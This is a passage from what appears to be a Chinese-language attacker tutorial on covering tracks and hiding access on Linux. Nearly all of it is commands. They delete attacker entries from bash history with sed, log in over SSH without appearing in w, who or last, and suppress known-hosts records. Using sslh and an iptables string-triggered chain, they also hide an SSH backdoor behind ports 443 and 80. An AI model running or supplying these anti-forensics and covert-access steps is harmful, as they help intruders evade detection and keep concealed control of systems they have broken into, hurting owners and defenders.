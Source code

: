 这种技巧是关键记录删除，或者我们可以暴力点，比如前 150 行是用户的正常操作记录，150 以后是攻击者操作记录。我们可以只保留正常的操作，删除攻击痕迹的历史操作记录，这里，我们只保留前 150 行：

~~~
sed -i '150,$d' .bash_history
~~~

### 0 x 05 隐藏远程 SSH 登陆记录

隐身登录系统 ，不会被 w、who、last 等指令检测到。

~~~
ssh -T root@127.0.0.1 /bin/bash -i
~~~

不记录 ssh 公钥在本地. Ssh 目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```



### 0 x 06 端口复用

通过端口复用来达到隐藏端口的目的，在 Linux 下，如何实现端口复用呢？

第一种方式：通过 SSLH 在同一端口上共享 SSH 与 HTTPS

~~~
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
~~~

第二种方式：利用 IPTables 进行端口复用

~~~
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
~~~
